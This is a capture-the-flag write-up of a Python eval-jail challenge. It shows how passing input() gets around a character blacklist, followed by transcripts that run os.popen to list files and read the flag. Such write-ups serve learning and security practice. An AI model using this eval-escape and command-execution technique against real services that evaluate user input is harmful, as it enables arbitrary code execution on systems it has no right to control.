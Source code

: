# Krampus' Return

> Author: howard41436 | 楊皓丞 | B06902097, devin6011 | 林首志 | B06902049

### Description

Krampus is back this Christmas, just like every Christmas! Make sure you get what you like from him ... and don't make hime mad!

### Solution

This is a interactive problem that we talk to Krampus and he talks back to us. When entering a string like `hi`, he answers random sentences. When I tried entering a number, Krampus answers exactly the same number. Something like this:

```
<You>: hi
<Server>: Krampus grows angry.
<You>: 3
<Krampus>: 3
```

So Krampus seems to evaluate our input, but when I entered `3+3`, random sentence appears, meaning the input is not valid. When I entered `globals()`, it works.

```
<You>: 3+3
<Elf #3200>: I should go investigate. Later.
<You>: globals()
<Krampus>: {'__builtins__': <module '__builtin__' (built-in)>, '__file__': '/chall/krampus.py', 'inp': 'globals()', '__package__': None, '__name__': '__main__', '__doc__': None}
```

I guess it blacklisted some characters in the input, after some tries, most special characters are blacklisted, including `'"[]{},.+-*/_` and many others. It's hard to create anything without using any of these special characters.

Then later we tried `input()`, and it works, it will take our input and evaluate it, bypassing all of the blacklists.

```
<You>: input()
3+3
<Krampus>: 6
<You>: input()
__import__("os").popen("ls").read()
<Krampus>: flag.txt
krampus.py
server.py
<You>: input()
__import__("os").popen("cat flag.txt").read()
<Krampus>: X-MAS{Th3_4ll_Mighty_pyth0n_b34t5_kr4mpu5_th1s_Xmas}
```

